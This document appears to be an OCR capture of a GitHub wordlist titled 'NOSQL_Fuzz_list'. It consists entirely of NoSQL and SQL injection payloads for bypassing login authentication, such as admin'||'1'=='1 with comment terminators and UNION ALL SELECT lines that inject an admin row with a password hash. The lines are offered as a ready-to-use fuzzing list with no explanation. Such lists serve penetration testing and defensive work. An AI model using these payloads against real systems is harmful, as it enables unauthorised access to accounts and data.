 # NOSQL_Fuzz_list

||1==1/*
admin'--
admin'#
admin'/*
admin'||'1'=='1
admin'||'1'=='1'--
admin'||'1'=='1'#
admin'||'1'=='1'/*
admin'||1==1||''=='
admin'||1==1
admin'||1==1--
admin'||1==1#
admin'||1==1/*
admin')||('1'=='1
admin')||('1'=='1'--
admin')||('1'=='1'#
admin')||('1'=='1'/*
admin')||'1'=='1
admin')||'1'=='1'--
admin')||'1'=='1'#
admin')||'1'=='1'/*
1234'AND1==0UNIONALLSELECT'admin','81dc9bdb52d04dc20036dbd8313ed055
admin"--
admin"#
admin"/*
admin"||"1"=="1
admin"||"1"=="1"--
admin"||"1"=="1"#
admin"||"1"=="1"/*
admin"||1==1||""=="
admin"||1==1
admin"||1==1--
admin"||1==1#
admin"||1==1/*
admin")||("1"=="1
admin")||("1"=="1"--
admin")||("1"=="1"#
admin")||("1"=="1"/*
admin")||"1"=="1
admin")||"1"=="1"--
admin")||"1"=="1"#
admin")||"1"=="1"/*
1234"AND1==0UNIONALLSELECT"admin","81dc9bdb52d04dc20036dbd8313ed055

